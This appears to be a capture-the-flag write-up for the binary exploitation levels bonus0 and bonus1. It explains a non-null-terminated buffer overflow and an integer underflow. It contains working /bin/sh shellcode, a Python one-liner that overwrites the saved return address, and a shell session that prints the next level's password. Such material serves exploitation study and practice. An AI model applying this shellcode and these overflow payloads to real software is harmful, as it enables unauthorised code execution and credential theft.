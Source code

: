 `p` reads from `stdin` and writes it in a local buffer.
Also, there is a call to `strncpy(bufferN, localbuffer, 20)` which makes it possible for us to make both `buffer1` and `2` to be `non null-terminated` if we write more than `20` char through `stdin`.

- `buffer[54]`
- `buffer1[20]`
- `buffer2[20]`

Subsequent calls to `strcpy` and `strcat` do the following:
1. `strcpy(buffer, buffer1)`: writes both `buffer1` and `2` into `buffer` because `buffer1` is not `null-terminated`
2. `strcat(buffer, buffer2)`: overwrites EIP of function `pp` with the address of a env variable containing a malicious shellcode

```shell-session
export SHELLCODE_ENV=`python -c 'print("\x90" * 4242 + "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'`
```

```shell-session
(python -c "print '\x90' * 4095 + '\n' + '\x90' * 9 + '\x79\xee\xff\xbf' + '\x90' * 100"; cat -) | ./bonus0
 -
 -
y� y�
whoami
<+ '\x90' * 9 + '\x79\xee\xff\xbf' + '\x90' * 100"; cat -) | ./bonus0
 -
 -
y�� y��
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

# bonus1

## Type of exploit

Integer underflow + buffer overflow

## Details of bonus1

There are two arguments passed to program:

`argv[1]` is fed to `atoi` and the returned value (`int i`) of that function call is used to write in a buffer of size `40` as follow: `memcpy(buffer, argv[2], (size_t)i)`, this is where the bufferoverflow will happen.

But before we reach that instruction:
1. `i` value is tested to be `<= 9`.
2. then `i` is multiplicated by `4`.
3. then `i` is fed to `memcpy(buffer, argv[2], (size_t)i)`.
4. then `i` is tested to be `== 1464814662` or (0x574F4C46)
5. a shell is opened
